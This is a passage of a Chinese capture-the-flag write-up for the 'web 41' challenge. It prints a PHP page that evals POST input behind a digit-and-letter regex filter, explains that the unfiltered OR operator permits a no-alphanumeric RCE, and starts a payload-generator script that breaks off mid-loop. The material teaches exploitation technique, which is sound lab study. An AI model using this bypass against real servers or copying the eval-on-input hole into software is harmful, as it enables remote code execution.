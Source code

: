 #### web 41
```php
<?php
if(isset($_POST['c'])){
    $c = $_POST['c'];
if(!preg_match('/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i', $c)){
        eval("echo($c);");
    }
}else{
    highlight_file(__FILE__);
}
?>
```
##### 分析:
代码审计,首先看到过滤了数字和字母，我们不难想到那一篇P神的无数字字母RCE，大家可以去看看羽师傅写的脚本，我在参考文章那里放了链接
这个题过滤了$、+、-、^、~使得异或自增和取反构造字符都无法使用，同时过滤了字母和数字。但是特意留了个或运算符|。所以可以写脚本了

```php
<?php
/*
# -*- coding: utf-8 -*-
# @Author: Y4tacker
# @Date:   2020-11-21 20:31:22
*/
//或
function orRce($par1, $par2){
    $result = (urldecode($par1)|urldecode($par2));
    return $result;
}

//异或
function xorRce($par1, $par2){
    $result = (urldecode($par1)^urldecode($par2));
    return $result;
}

//取反
function negateRce(){
    fwrite(STDOUT,'[+]your function: ');

    $system=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN));

    fwrite(STDOUT,'[+]your command: ');

    $command=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN));

    echo '[*] (~'.urlencode(~$system).')(~'.urlencode(~$command).');';
}

//mode=1代表或，2代表异或，3代表取反
//取反的话，就没必要生成字符去跑了，因为本来就是不可见字符，直接绕过正则表达式
function generate($mode, $preg='/[0-9]/i'){
    if ($mode!=3){
        $myfile = fopen("rce.txt", "w");
        $contents = "";

        for ($i=0;$i<256;$i++){
            for ($j=0;$j<256;$j++){
                if ($i<16){
                    $hex_i = '0'.dechex($i);
                }else{
                    $hex_i = dechex($i);
                }
                if ($j<16){
```